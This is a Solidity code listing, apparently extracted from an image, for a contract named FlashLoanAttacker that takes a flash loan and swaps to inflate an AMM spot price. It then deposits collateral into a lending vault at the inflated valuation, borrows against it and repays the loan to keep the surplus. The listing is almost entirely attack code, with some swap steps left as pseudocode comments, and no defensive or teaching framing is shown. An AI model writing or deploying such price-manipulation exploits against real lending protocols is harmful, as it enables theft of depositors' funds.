 ```solidity
interface IVault {
    function deposit(uint256 amount) external;
    function borrow(uint256 amountDebt) external;
}

interface IERC20Like {
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function balanceOf(address) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
}

contract FlashLoanAttacker {
    IFlashProvider public provider;
    IAMM public amm;
    IVault public vault;
    IERC20Like public collat;
    IERC20Like public debt;

    constructor(IFlashProvider _provider, IAMM _amm, IVault _vault, IERC20Like _collat, IERC20Like _debt) {
        provider = _provider;
        amm = _amm;
        vault = _vault;
        collat = _collat;
        debt = _debt;
    }

    /// @notice Entry point: borrow huge amount of DEBT to swing AMM and fake price for 1 tx.
    function attack(uint256 flashAmount, uint256 borrowDebt) external {
        provider.flashLoan(flashAmount, abi.encode(borrowDebt));
    }

    /// @notice Flash callback invoked by provider *within the same tx*.
    function onFlashLoan(uint256 amount, bytes calldata data) external {
        require(msg.sender == address(provider), "only provider");
        uint256 borrowDebt = abi.decode(data, (uint256));

        // 1) Use flash capital to manipulate AMM price (sketch; implementation depends on AMM API).
        // Example idea: buy a large amount of COLLAT with DEBT to push COLLAT/DEBT price up.
        debt.approve(address(amm), type(uint256).max);
        // Pseudocode: amm.swap(amount, /*zeroForOne?*/, address(this), "");
        // After this, spot price of COLLAT in DEBT is artificially high.

        // 2) Deposit manipulated collateral and borrow at inflated valuation.
        collat.approve(address(vault), type(uint256).max);
        uint256 balCollat = collat.balanceOf(address(this));
        if (balCollat > 0) {
            vault.deposit(balCollat);
        }
        vault.borrow(borrowDebt); // vault sends DEBT to attacker

        // 3) Unwind AMM price towards normal and repay flash loan.
        // Sell back COLLAT for DEBT (sketch), then repay provider.
        // amm.swap(...);

        // 4) Repay flash loan; attacker keeps surplus DEBT as profit.
        require(debt.transfer(address(provider), amount), "repay flash fail");
        // Profit: residual DEBT balance on this contract.
    }
}
```
